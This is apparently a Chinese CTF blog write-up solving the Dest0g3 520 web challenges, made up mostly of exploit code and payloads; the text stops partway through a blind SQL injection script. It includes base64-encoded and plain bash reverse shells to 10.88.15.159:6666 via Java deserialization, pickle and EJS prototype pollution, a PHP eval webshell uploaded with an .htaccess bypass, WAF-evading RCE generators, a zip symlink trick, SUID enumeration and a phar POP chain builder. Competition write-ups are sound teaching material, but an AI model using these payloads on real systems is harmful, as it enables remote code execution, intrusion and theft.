







+++
title = "Dest0g3 520迎新赛"
slug = "dest0g3-520-welcome-match"
description = "最后的SQL注入网上很多脚本都用不了，所以水一篇文章。（打新生赛放松来了"
date = "2025-08-08T16:27:50"
lastmod = "2025-08-08T16:27:50"
image = ""
license = ""
categories = ["复现"]
tags = ["phar", "ssti", "php", "mysql"]
+++

## EzSerial

`admin\admin`登录进去，发现Cookie是java反序列化的片段，直接打CC5

```bash
java -jar ysoserial-all.jar  CommonsCollections5  "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44OC4xNS4xNTkvNjY2NiAwPiYx}|{base64,-d}|{bash,-i}" | base64 -w 0
```





## phpdest

之前做到一道WMCTF的题目，其中就是利用`require_once`

```
?file=php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

## EasyPHP

```php
<?php
highlight_file(__FILE__);
include "fl4g.php";
$dest0g3 = $_POST['ctf'];
$time = date("H");
$timme = date("d");
$timmme = date("i");
if(($time > "24") or ($timme > "31") or ($timmme > "60")){
    echo $fl4g;
}else{
    echo "Try harder!";
}
set_error_handler(
    function() use(&$fl4g) {
        print $fl4g;
    }
);
$fl4g .= $dest0g3;
?> Try harder!
```

`set_error_handler`函数可以自定义一个捕捉错误的函数，现在一行是字符串拼接我们传入的参数，只要让他报错即可

```
ctf[]=1
```

## SimpleRCE

```php
<?php
highlight_file(__FILE__);
$aaa=$_POST['aaa'];
$black_list=array('^','.','`','>','<','=','"','preg','&','|','%0','popen','char','decode','html','md5','{','}','post','get','file','ascii','eval','replace','assert','exec','$','include','var','pastre','print','tail','sed','pcre','flag','scan','decode','system','func','diff','ini_','passthru','pcntl','proc_open','+','cat','tac','more','sort','log','current','\\','cut','bash','nl','wget','vi','grep');
$aaa = str_ireplace($black_list,"hacker",$aaa);
eval($aaa);
?>
```

没过滤hex2bin，也可以取反直接RCE

```php
<?php
 
function negateRce(){
    fwrite(STDOUT,'[+]your function: ');
 
    $system=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));
 
    fwrite(STDOUT,'[+]your command: ');
 
    $command=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));
 
    echo '[*] (~'.urlencode(~$system).')(~'.urlencode(~$command).');';
}
 
negateRce();


```



## EasySSTI

fenjing打打

```http
POST /login HTTP/1.1
Host: d8eb9c60-64df-4b13-9ef4-2afee7797b73.node5.buuoj.cn:81
Content-Length: 30
Cache-Control: max-age=0
Origin: http://d8eb9c60-64df-4b13-9ef4-2afee7797b73.node5.buuoj.cn:81
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://d8eb9c60-64df-4b13-9ef4-2afee7797b73.node5.buuoj.cn:81/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

username=PAYLOAD&password=1111
```

```bash
python -m fenjing crack-request -f 1.txt --host 'd8eb9c60-64df-4b13-9ef4-2afee7797b73.node5.buuoj.cn' --port 81
```

## funny_upload

上传`.htaccess`绕过

```.htaccess
#define width 1337
#define height 1337
php_value auto_prepend_file "php://filter/convert.base64-decode/resource=./poc.jpg"
AddType application/x-httpd-php .jpg
```

```http
POST / HTTP/1.1
Host: 6af69ad2-a500-458e-a652-60db874aa4c1.node5.buuoj.cn:81
Content-Length: 307
Pragma: no-cache
Cache-Control: no-cache
Origin: http://6af69ad2-a500-458e-a652-60db874aa4c1.node5.buuoj.cn:81
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryRlXcRCJvgFTPQ3x0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://6af69ad2-a500-458e-a652-60db874aa4c1.node5.buuoj.cn:81/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

------WebKitFormBoundaryRlXcRCJvgFTPQ3x0
Content-Disposition: form-data; name="file"; filename="poc.jpg"
Content-Type: image/jpeg

PD9waHAgZXZhbCgkX1BPU1RbMV0pOw==
------WebKitFormBoundaryRlXcRCJvgFTPQ3x0
Content-Disposition: form-data; name="1"

提交
------WebKitFormBoundaryRlXcRCJvgFTPQ3x0--

```

## middle

```python
import os
import config
from flask import Flask, request, session, render_template, url_for,redirect,make_response
import pickle
import io
import sys
import base64


app = Flask(__name__)


class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        if module in ['config'] and "__" not in name:
            return getattr(sys.modules[module], name)
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" % (module, name))


def restricted_loads(s):
    return RestrictedUnpickler(io.BytesIO(s)).load()

@app.route('/')
def show():
    base_dir = os.path.dirname(__file__)
    resp = make_response(open(os.path.join(base_dir, __file__)).read()+open(os.path.join(base_dir, "config/__init__.py")).read())
    resp.headers["Content-type"] = "text/plain;charset=UTF-8"
    return resp

@app.route('/home', methods=['POST', 'GET'])
def home():
    data=request.form['data']
    User = restricted_loads(base64.b64decode(data))
    return str(User)

if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=True, port=5000)

```

pickle反序列化，他这个RestrictedUnpickler，只让从config里面导入，但是`config.py`里面有`os`

```python
import os
def backdoor(cmd):
    # 这里我也改了一下
    if isinstance(cmd,list) :
        s=''.join(cmd)
        print("!!!!!!!!!!")
        s=eval(s)
        return s
    else:
        print("??????")
```

直接弹shell

```python
import pickle
import base64
import config

class poc(object):
    def __reduce__(self):
        return (config.backdoor,(["os.system('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44OC4xNS4xNTkvNjY2NiAwPiYx|base64 -d|bash -i')"],))


Poc=base64.b64encode(pickle.dumps(poc())).decode()
print(Poc)
```

这里参数写成list，因为backdoor里面要进行拼接，然后eval执行

## ezip

```
Oh you find key:dXBsb2FkLnBocDoKPD9waHAKZXJyb3JfcmVwb3J0aW5nKDApOwppbmNsdWRlKCJ6aXAucGhwIik7CmlmKGlzc2V0KCRfRklMRVNbJ2ZpbGUnXVsnbmFtZSddKSl7CiAgICBpZihzdHJzdHIoJF9GSUxFU1snZmlsZSddWyduYW1lJ10sIi4uIil8fHN0cnN0cigkX0ZJTEVTWydmaWxlJ11bJ25hbWUnXSwiLyIpKXsKICAgICAgICBlY2hvICJoYWNrZXIhISI7CiAgICAgICAgZXhpdDsKICAgIH0KICAgIGlmKHBhdGhpbmZvKCRfRklMRVNbJ2ZpbGUnXVsnbmFtZSddLCBQQVRISU5GT19FWFRFTlNJT04pIT0iemlwIil7CiAgICAgICAgZWNobyAib25seSB6aXAhISI7CiAgICAgICAgZXhpdDsKICAgIH0KICAgICRNeXppcCA9IG5ldyB6aXAoJF9GSUxFU1snZmlsZSddWyduYW1lJ10pOwogICAgbWtkaXIoJE15emlwLT5wYXRoKTsKICAgIG1vdmVfdXBsb2FkZWRfZmlsZSgkX0ZJTEVTWydmaWxlJ11bJ3RtcF9uYW1lJ10sICcuLycuJE15emlwLT5wYXRoLicvJyAuICRfRklMRVNbJ2ZpbGUnXVsnbmFtZSddKTsKICAgIGVjaG8gIlRyeSB0byB1bnppcCB5b3VyIHppcCB0byAvIi4kTXl6aXAtPnBhdGguIjxicj4iOwogICAgaWYoJE15emlwLT51bnppcCgpKXtlY2hvICJTdWNjZXNzIjt9ZWxzZXtlY2hvICJmYWlsZWQiO30KfQoKemlwLnBocDoKPD9waHAKY2xhc3MgemlwCnsKICAgIHB1YmxpYyAkemlwX25hbWU7CiAgICBwdWJsaWMgJHBhdGg7CiAgICBwdWJsaWMgJHppcF9tYW5hZ2VyOwoKICAgIHB1YmxpYyBmdW5jdGlvbiBfX2NvbnN0cnVjdCgkemlwX25hbWUpewogICAgICAgICR0aGlzLT56aXBfbWFuYWdlciA9IG5ldyBaaXBBcmNoaXZlKCk7CiAgICAgICAgJHRoaXMtPnBhdGggPSAkdGhpcy0+Z2VuX3BhdGgoKTsKICAgICAgICAkdGhpcy0+emlwX25hbWUgPSAkemlwX25hbWU7CiAgICB9CiAgICBwdWJsaWMgZnVuY3Rpb24gZ2VuX3BhdGgoKXsKICAgICAgICAkY2hhcnM9ImFiY2RlZmdoaWprbG1ub3BxcnN0dXZ3eHl6QUJDREVGR0hJSktMTU5PUFFSU1RVVldYWVowMTIzNDU2Nzg5IjsKICAgICAgICAkbmV3Y2hhcnM9c3RyX3NwbGl0KCRjaGFycyk7CiAgICAgICAgc2h1ZmZsZSgkbmV3Y2hhcnMpOwogICAgICAgICRjaGFyc19rZXk9YXJyYXlfcmFuZCgkbmV3Y2hhcnMsMTUpOwogICAgICAgICRmbnN0ciA9ICIiOwogICAgICAgIGZvcigkaT0wOyRpPDE1OyRpKyspewogICAgICAgICAgICAkZm5zdHIuPSRuZXdjaGFyc1skY2hhcnNfa2V5WyRpXV07CiAgICAgICAgfQogICAgICAgIHJldHVybiBtZDUoJGZuc3RyLnRpbWUoKS5taWNyb3RpbWUoKSoxMDAwMDApOwogICAgfQoKICAgIHB1YmxpYyBmdW5jdGlvbiBkZWxkaXIoJGRpcikgewogICAgICAgIC8v5YWI5Yig6Zmk55uu5b2V5LiL55qE5paH5Lu277yaCiAgICAgICAgJGRoID0gb3BlbmRpcigkZGlyKTsKICAgICAgICB3aGlsZSAoJGZpbGUgPSByZWFkZGlyKCRkaCkpIHsKICAgICAgICAgICAgaWYoJGZpbGUgIT0gIi4iICYmICRmaWxlIT0iLi4iKSB7CiAgICAgICAgICAgICAgICAkZnVsbHBhdGggPSAkZGlyLiIvIi4kZmlsZTsKICAgICAgICAgICAgICAgIGlmKCFpc19kaXIoJGZ1bGxwYXRoKSkgewogICAgICAgICAgICAgICAgICAgIHVubGluaygkZnVsbHBhdGgpOwogICAgICAgICAgICAgICAgfSBlbHNlIHsKICAgICAgICAgICAgICAgICAgICAkdGhpcy0+ZGVsZGlyKCRmdWxscGF0aCk7CiAgICAgICAgICAgICAgICB9CiAgICAgICAgICAgIH0KICAgICAgICB9CiAgICAgICAgY2xvc2VkaXIoJGRoKTsKICAgIH0KICAgIGZ1bmN0aW9uIGRpcl9saXN0KCRkaXJlY3RvcnkpCiAgICB7CiAgICAgICAgJGFycmF5ID0gW107CgogICAgICAgICRkaXIgPSBkaXIoJGRpcmVjdG9yeSk7CiAgICAgICAgd2hpbGUgKCRmaWxlID0gJGRpci0+cmVhZCgpKSB7CiAgICAgICAgICAgIGlmICgkZmlsZSAhPT0gJy4nICYmICRmaWxlICE9PSAnLi4nKSB7CiAgICAgICAgICAgICAgICAkYXJyYXlbXSA9ICRmaWxlOwogICAgICAgICAgICB9CiAgICAgICAgfQogICAgICAgIHJldHVybiAkYXJyYXk7CiAgICB9CiAgICBwdWJsaWMgZnVuY3Rpb24gdW56aXAoKQogICAgewogICAgICAgICRmdWxscGF0aCA9ICIvdmFyL3d3dy9odG1sLyIuJHRoaXMtPnBhdGguIi8iLiR0aGlzLT56aXBfbmFtZTsKICAgICAgICAkd2hpdGVfbGlzdCA9IFsnanBnJywncG5nJywnZ2lmJywnYm1wJ107CiAgICAgICAgJHRoaXMtPnppcF9tYW5hZ2VyLT5vcGVuKCRmdWxscGF0aCk7CiAgICAgICAgZm9yICgkaSA9IDA7JGkgPCAkdGhpcy0+emlwX21hbmFnZXItPmNvdW50KCk7JGkgKyspIHsKICAgICAgICAgICAgaWYgKHN0cnN0cigkdGhpcy0+emlwX21hbmFnZXItPmdldE5hbWVJbmRleCgkaSksIi4uLyIpKXsKICAgICAgICAgICAgICAgIGVjaG8gInlvdSBiYWQgYmFkIjsKICAgICAgICAgICAgICAgIHJldHVybiBmYWxzZTsKICAgICAgICAgICAgfQogICAgICAgIH0KICAgICAgICBpZighJHRoaXMtPnppcF9tYW5hZ2VyLT5leHRyYWN0VG8oJHRoaXMtPnBhdGgpKXsKICAgICAgICAgICAgZWNobyAiVW56aXAgdG8gLyIuJHRoaXMtPnBhdGguIi8gZmFpbGVkIjsKICAgICAgICAgICAgZXhpdDsKICAgICAgICB9CiAgICAgICAgQHVubGluaygkZnVsbHBhdGgpOwogICAgICAgICRmaWxlX2xpc3QgPSAkdGhpcy0+ZGlyX2xpc3QoIi92YXIvd3d3L2h0bWwvIi4kdGhpcy0+cGF0aC4iLyIpOwogICAgICAgIGZvcigkaT0wOyRpPHNpemVvZigkZmlsZV9saXN0KTskaSsrKXsKICAgICAgICAgICAgaWYoaXNfZGlyKCR0aGlzLT5wYXRoLiIvIi4kZmlsZV9saXN0WyRpXSkpewogICAgICAgICAgICAgICAgZWNobyAiZGlyPyBJIGRlbGV0ZWQgYWxsIHRoaW5ncyBpbiBpdCIuIjxicj4iO0AkdGhpcy0+ZGVsZGlyKCIvdmFyL3d3dy9odG1sLyIuJHRoaXMtPnBhdGguIi8iLiRmaWxlX2xpc3RbJGldKTtAcm1kaXIoIi92YXIvd3d3L2h0bWwvIi4kdGhpcy0+cGF0aC4iLyIuJGZpbGVfbGlzdFskaV0pOwogICAgICAgICAgICB9CiAgICAgICAgICAgIGVsc2V7CiAgICAgICAgICAgICAgICBpZighaW5fYXJyYXkocGF0aGluZm8oJGZpbGVfbGlzdFskaV0sIFBBVEhJTkZPX0VYVEVOU0lPTiksJHdoaXRlX2xpc3QpKSB7ZWNobyAib25seSBpbWFnZSEhISBJIGRlbGV0ZWQgaXQgZm9yIHlvdSIuIjxicj4iO0B1bmxpbmsoIi92YXIvd3d3L2h0bWwvIi4kdGhpcy0+cGF0aC4iLyIuJGZpbGVfbGlzdFskaV0pO30KICAgICAgICAgICAgfQogICAgICAgIH0KICAgICAgICByZXR1cm4gdHJ1ZTsKCiAgICB9CgoKfQo=
```

解码之后是两个文件的代码

```php
//upload.php
<?php
error_reporting(0);
include("zip.php");
if(isset($_FILES['file']['name'])){
    if(strstr($_FILES['file']['name'],"..")||strstr($_FILES['file']['name'],"/")){
        echo "hacker!!";
        exit;
    }
    if(pathinfo($_FILES['file']['name'], PATHINFO_EXTENSION)!="zip"){
        echo "only zip!!";
        exit;
    }
    $Myzip = new zip($_FILES['file']['name']);
    mkdir($Myzip->path);
    move_uploaded_file($_FILES['file']['tmp_name'], './'.$Myzip->path.'/' . $_FILES['file']['name']);
    echo "Try to unzip your zip to /".$Myzip->path."<br>";
    if($Myzip->unzip()){echo "Success";}else{echo "failed";}
}
```

只检查`PATHINFO_EXTENSION`，而且直接解压，感觉这个文件问题很多，太不安全了

```php
//zip.php
<?php
class zip
{
    public $zip_name;
    public $path;
    public $zip_manager;

    public function __construct($zip_name){
        $this->zip_manager = new ZipArchive();
        $this->path = $this->gen_path();
        $this->zip_name = $zip_name;
    }
    public function gen_path(){
        $chars="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";
        $newchars=str_split($chars);
        shuffle($newchars);
        $chars_key=array_rand($newchars,15);
        $fnstr = "";
        for($i=0;$i<15;$i++){
            $fnstr.=$newchars[$chars_key[$i]];
        }
        return md5($fnstr.time().microtime()*100000);
    }

    public function deldir($dir) {
        //先删除目录下的文件：
        $dh = opendir($dir);
        while ($file = readdir($dh)) {
            if($file != "." && $file!="..") {
                $fullpath = $dir."/".$file;
                if(!is_dir($fullpath)) {
                    unlink($fullpath);
                } else {
                    $this->deldir($fullpath);
                }
            }
        }
        closedir($dh);
    }
    function dir_list($directory)
    {
        $array = [];

        $dir = dir($directory);
        while ($file = $dir->read()) {
            if ($file !== '.' && $file !== '..') {
                $array[] = $file;
            }
        }
        return $array;
    }
    public function unzip()
    {
        $fullpath = "/var/www/html/".$this->path."/".$this->zip_name;
        $white_list = ['jpg','png','gif','bmp'];
        $this->zip_manager->open($fullpath);
        for ($i = 0;$i < $this->zip_manager->count();$i ++) {
            if (strstr($this->zip_manager->getNameIndex($i),"../")){
                echo "you bad bad";
                return false;
            }
        }
        if(!$this->zip_manager->extractTo($this->path)){
            echo "Unzip to /".$this->path."/ failed";
            exit;
        }
        @unlink($fullpath);
        $file_list = $this->dir_list("/var/www/html/".$this->path."/");
        for($i=0;$i<sizeof($file_list);$i++){
            if(is_dir($this->path."/".$file_list[$i])){
                echo "dir? I deleted all things in it"."<br>";@$this->deldir("/var/www/html/".$this->path."/".$file_list[$i]);@rmdir("/var/www/html/".$this->path."/".$file_list[$i]);
            }
            else{
                if(!in_array(pathinfo($file_list[$i], PATHINFO_EXTENSION),$white_list)) {echo "only image!!! I deleted it for you"."<br>";@unlink("/var/www/html/".$this->path."/".$file_list[$i]);}
            }
        }
        return true;

    }


}

```

ZipArchived的extractTo有问题，我已经知道的方法有两种 https://baozongwi.xyz/2025/01/13/SUCTF2025/#SU-photogallery 但是我看网上WP居然还有一种，就是混淆文件

```bash
zip -y exp.zip 1.php

rm 1.php
mkdir 1.php
echo 1 > 1.php/1
zip -y exp.zip 1.php/1
```







链接之后suid提权

```bash
find / -user root -perm -4000 -print 2>/dev/null

nl /f*
```

## NodeSoEasy



```js
const express = require('express')
const bodyParser = require('body-parser')
const app = express()
const port = 5000

app.use(bodyParser.urlencoded({extended: true})).use(bodyParser.json())
app.set('view engine', 'ejs');

const merge= (target, source) => {
    for (let key in source) {
        if (key in source && key in target) {
            merge(target[key], source[key])
        } else {
            target[key] = source[key]
        }
    }
}

app.post('/', function (req, res) {
    var target = {}
    var source = JSON.parse(JSON.stringify(req.body))
    merge(target, source)
    res.render('index');
})

app.listen(port, () => {
    console.log(`listening on port ${port}`)
})
```

ejs版本低，可以污染RCE，outputFunctionName用不了了，只能用opts.escapeFunction

```json
{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/10.88.15.159/6666 0>&1\"');var __tmp2"}}

{"__proto__":{"client":true,"escapeFunction":"1; return global.process.mainModule.constructor._load('child_process').execSync('bash -c \"bash -i >& /dev/tcp/10.88.15.159/6666 0>&1\"');","compileDebug":true}}
```

## PharPOP

```php
<?php
highlight_file(__FILE__);

function waf($data){
    if (is_array($data)){
        die("Cannot transfer arrays");
    }
    if (preg_match('/get|air|tree|apple|banana|php|filter|base64|rot13|read|data/i', $data)) {
        die("You can't do");
    }
}

class air{
    public $p;

    public function __set($p, $value) {
        $p = $this->p->act;
        echo new $p($value);
    }
}

class tree{
    public $name;
    public $act;

    public function __destruct() {
        return $this->name();
    }
    public function __call($name, $arg){
        $arg[1] =$this->name->$name;

    }
}

class apple {
    public $xxx;
    public $flag;
    public function __get($flag)
    {
        $this->xxx->$flag = $this->flag;
    }
}

class D {
    public $start;

    public function __destruct(){
        $data = $_POST[0];
        if ($this->start == 'w') {
            waf($data);
            $filename = "/tmp/".md5(rand()).".jpg";
            file_put_contents($filename, $data);
            echo $filename;
        } else if ($this->start == 'r') {
            waf($data);
            $f = file_get_contents($data);
            if($f){
                echo "It is file";
            }
            else{
                echo "You can look at the others";
            }
        }
    }
}

class banana {
    public function __get($name){
        return $this->$name;
    }
}
// flag in /
if(strlen($_POST[1]) < 55) {
    $a = unserialize($_POST[1]);
}
else{
    echo "str too long";
}

throw new Error("start");
?>
Fatal error: Uncaught Error: start in /var/www/html/index.php:80 Stack trace: #0 {main} thrown in /var/www/html/index.php on line 80
```

GC绕过抛出错误，参数不能太长，利用原生类进行列目录和文件读取，先利用类D来写入phar文件，然后用类D触发phar反序列化，没毛病开整

```
tree::__destruct()->tree::__call()->apple::__get()->air::__set()
```

```php
<?php
class D {
    public $start;
}
$a=new D();
//$a->start='w';
$a->start='r';
echo serialize($a);
```

```php
<?php
class air{
    public $p;
}

class tree{
    public $name;
    public $act;
}

class apple {
    public $xxx;
    public $flag;
}
@unlink("phar.phar");
$a=new tree();
$a->name=new tree();
$a->name->name=new apple();
$a->name->name->xxx=new air();
$a->name->name->xxx->p=new tree();
//$a->name->name->xxx->p->act="DirectoryIterator";
//$a->name->name->flag="glob:///*f*";
$a->name->name->xxx->p->act="SplFileObject";
$a->name->name->flag="/fflaggg";
echo serialize($a);
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($a);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();

?>

```

进行签名修复

```python
from hashlib import sha1

with open('phar.phar', 'rb') as file:
    f = file.read()

s = f[:-28]  # 获取要签名的数据
h = f[-8:]  # 获取签名类型和GBMB标识
newf = s + sha1(s).digest() + h

with open('exp.phar', 'wb') as file:
    file.write(newf)
```

因为有waf检测类关键词，所以进行gzip压缩

```python
import urllib.parse
import gzip

with open("exp.phar", 'rb') as f:
    phar_data = f.read()

compressed_data = gzip.compress(phar_data)
encoded = urllib.parse.quote(compressed_data)
print(encoded)
```

## easysql

```http
POST /index.php HTTP/1.1
Host: 901eded4-1ce9-4a31-a478-2b4fa24eb452.node5.buuoj.cn:81
Content-Length: 182
Cache-Control: max-age=0
Origin: http://901eded4-1ce9-4a31-a478-2b4fa24eb452.node5.buuoj.cn:81
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://901eded4-1ce9-4a31-a478-2b4fa24eb452.node5.buuoj.cn:81/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
Connection: close

username=admin'or(benchmark(10000000,md5('test')))or'&password=test&submit=
```

成功延时，开始写脚本，一开始没用ASCII会对比出来两个字符，所以还是写的ASCII的脚本

```python
import requests
import time

url = "http://7b1be8f8-33d6-4131-9848-b85306e85227.node5.buuoj.cn:81/index.php"
maxlen = 50
target = ""
right_time = 1.3

for i in range(1, maxlen+1):
    found = False
